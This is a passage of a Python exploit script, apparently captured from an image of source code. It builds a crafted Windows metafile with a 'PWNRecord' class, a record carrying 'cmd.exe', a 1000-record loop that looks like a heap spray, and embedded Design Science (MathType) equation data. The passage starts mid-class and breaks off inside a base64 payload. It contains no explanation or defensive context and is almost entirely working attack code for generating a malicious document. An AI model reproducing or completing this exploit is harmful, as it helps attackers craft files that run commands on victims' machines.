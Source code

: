 ```python
            self.RecordSize += 6

    def __bytes__(self):
        s = super(PWNRecord, self).__bytes__()
        s += p32(0x233)
        s += p32(self.size)
        if self.buf:
            s += self.buf
        else:
            s += p32(0)
        return s


class EMFRecord(Record):
    def __init__(self, data):
        super(EMFRecord, self).__init__()
        self.RecordFunction = 1574

        self.efun = 0
        self.bytecount = 0
        self.CommentIdentifier = 'AppsMFCC'.encode()

        self.RecordSize += 11
        length = len(data)
        if length & 1:
            data += '\x00'.encode()
            length += 1

        self.RecordSize += int(length / 2)
        self.alloc_size = 0
        self.buff_size = 0
        self.version = 1
        if isinstance(data, str):
            self.data = data.encode()
        else:
            self.data = data

    def __bytes__(self):
        s = super(EMFRecord, self).__bytes__()
        s += p16(self.efun)
        s += p16(self.bytecount)
        s += self.CommentIdentifier
        s += p16(self.version)
        s += p32(self.alloc_size)
        s += p32(self.buff_size)
        s += self.data
        return s


if __name__ == '__main__':
    h = Header()
    h.right = 7168
    h.bottom = 512
    h.inch = 2304
    h + PWNRecord(0x20, 'cmd.exe\x00'.encode())
    for x in range(1000):
        h + PWNRecord(0x108)

    payload = 'Design Science, Inc.\x00'.encode()
    # original data from test
    payload += base64.b64decode('''BQEABwREU01UNwAAE1dpbkFsbEJhc2ljQ29kZVBhZ2VzABEFVGltZXMgTmV3IFJv
bWFuABEDU3ltYm9sABEFQ291cmllciBOZXcAEQRNVCBFeHRyYQATV2luQU5TSQAR
BlRlYW1WaWV3ZXIxMwASAAghL0WPRC9BUPQQD0dfQVDyHx5BUPQVD0EA9EX0JfSP
```